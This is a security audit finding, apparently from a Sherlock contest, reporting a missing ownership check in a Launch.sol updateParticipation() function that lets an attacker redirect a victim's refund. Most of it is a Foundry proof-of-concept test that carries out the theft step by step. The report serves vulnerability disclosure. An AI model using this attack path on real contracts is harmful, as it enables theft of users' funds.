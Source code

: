 Mythical Olive Bull

Medium

# Attacker can drain victim's funds by anipulating `updateParticipation()`

### Summary

Incorrect validation in `updateParticipation()` will cause a theft of funds for users as an attacker will manipulate request parameters to receive refunds intended for the victim.

### Root Cause

In `Launch.sol::updateParticipation()`, the function allows users to update their participation details, including token amount and refund claims. However, the function does not properly validate if the requester is the legitimate owner of the participation entry. This allows an attacker to update another user’s participation record and send refunds to their attacker's address.
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312

### Internal Pre-conditions

The launch group status must be ACTIVE

### External Pre-conditions

1. The attacker must know the victim’s participationID.
2. The attacker must generate a request signature using the victim’s userID, which is possible by obtaining the user access token.

### Attack Path

1. The attacker finds a valid participationID belonging to the victim.
2. The attacker generates a request with the victim’s userID, but with their own userAddress.
3. The attacker sets a reduced tokenAmount within allowed limits to trigger a refund (can set 0 as well as another vulnerability presents in the code which is described in another report).
4. Attacker calls updateParticipation()
5. The contract processes the refund but sends the money to the attacker’s userAddress instead of the victim’s.



### Impact

The victim(s) suffers a loss of their funds as the attacker is able to steal the refund. As per sherlock rule impact would be Medium as requires External Pre-conditions.

### PoC

<details>

```solidity

// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    CancelParticipationRequest,
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    ParticipationInfo,
    CurrencyConfig,
    UpdateParticipationRequest
} from "../src/Types.sol";
import {console} from "forge-std/console.sol";

contract USDC is ERC20 {
    constructor() ERC20("Mock Token", "MTK") {
        _mint(msg.sender, 1000000 * 10 ** 6);
    }
}

contract Steal is Test, Launch, LaunchTestBase {
    USDC public usdc;

    bytes32 public testLaunchParticipationId2 = "cm6o2sldi00003b74facm5z9n2";
    bytes32 public testUserId2 = "cm6o2tm1300003b74dsss1s7q2";

    function setUp() public {
        _setUpLaunch();
        usdc = new USDC();
        
        usdc.transfer(user1, 5000 * 10 ** 6);
    }

    function createLaunchGroup(bool finalizesAtParticipation) public {
        CurrencyConfig memory usdcConfig =
            CurrencyConfig({tokenPriceBps: 1 * (10 ** 6), isEnabled: true});

        LaunchGroupSettings memory settings = LaunchGroupSettings({
            finalizesAtParticipation: finalizesAtParticipation,
            startsAt: block.timestamp,
            endsAt: block.timestamp + 1 days,
            maxTokenAllocation: 10000 * 10 ** launch.tokenDecimals(),
            minTokenAmountPerUser: 500 * 10 ** launch.tokenDecimals(),
            maxTokenAmountPerUser: 5000 * 10 ** launch.tokenDecimals(),
            status: LaunchGroupStatus.ACTIVE
        });
        vm.startPrank(manager);
        launch.createLaunchGroup(testLaunchGroupId, address(usdc), usdcConfig, settings);
        vm.stopPrank();
    }

    function generateRequest(
        bytes32 launchParticipationId, 
        bytes32 userId, 
        address userAddress, 
        uint256 tokenAmount, 
        address currency) public returns (ParticipationRequest memory request){
            
        return ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: launchParticipationId,
            userId: userId,
            userAddress: userAddress,
            tokenAmount: tokenAmount * 10 ** launch.tokenDecimals(),
            currency: currency,
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

    function generateUpdateRequest(
        bytes32 prevLaunchParticipationId,
        bytes32 newLaunchParticipationId, 
        bytes32 userId, 
        address userAddress, 
        uint256 tokenAmount, 
        address currency
    ) public returns (UpdateParticipationRequest memory){
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: prevLaunchParticipationId,
            newLaunchParticipationId: newLaunchParticipationId,
            userId: userId,
            userAddress: userAddress,
            tokenAmount: tokenAmount * 10 ** launch.tokenDecimals(),
            currency: currency,
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

function test_stealOtherUser() public {
        // Setup launch group by setting finalizesAtParticipation as false.
        createLaunchGroup(false);

        //victim's request
        ParticipationRequest memory request = generateRequest(testLaunchParticipationId, testUserId, user1, 5000, address(usdc));
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        uint256 currencyAmount = _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount);
        usdc.approve(address(launch), currencyAmount);

        // Expect ParticipationRegistered event
        vm.expectEmit();
        emit ParticipationRegistered(
            request.launchGroupId, request.launchParticipationId, testUserId, user1, currencyAmount, address(usdc)
        );

        // Victim Participate
        launch.participate(request, signature);
        vm.stopPrank(); 

        //Asserting victim's token amount
        ParticipationInfo memory infoBefore = launch.getParticipationInfo(testLaunchParticipationId);
        assertEq(infoBefore.tokenAmount, request.tokenAmount);   

        // Attacker's manipulated request with reduced tokenAmount and victim's ParticipationId and userId
        UpdateParticipationRequest memory updateRequest = generateUpdateRequest(testLaunchParticipationId, testLaunchParticipationId2, testUserId, user2, 500, address(usdc));
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user2);
        // Asserting attacker balance is 0 before update request
        assertEq(usdc.balanceOf(user2), 0);
        console.log("Attacker's balance before:", usdc.balanceOf(user2));

        vm.expectEmit();
        emit ParticipationUpdated(
            updateRequest.launchGroupId,
            updateRequest.newLaunchParticipationId,
            testUserId,
            user2,
            updateRequest.tokenAmount,
            address(usdc)
        );

        // Attacker submits request update participant info
        launch.updateParticipation(updateRequest, updateSignature);
        
        //Asserting attacker balance after update request
        uint256 currencyAmountAfter = _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, infoBefore.tokenAmount - updateRequest.tokenAmount);
        assertEq(usdc.balanceOf(user2), currencyAmountAfter);
        console.log("Attacker's balance after:", usdc.balanceOf(user2));

    }
}
```

</details>

### Mitigation

Send excess balance to original userAddress only.
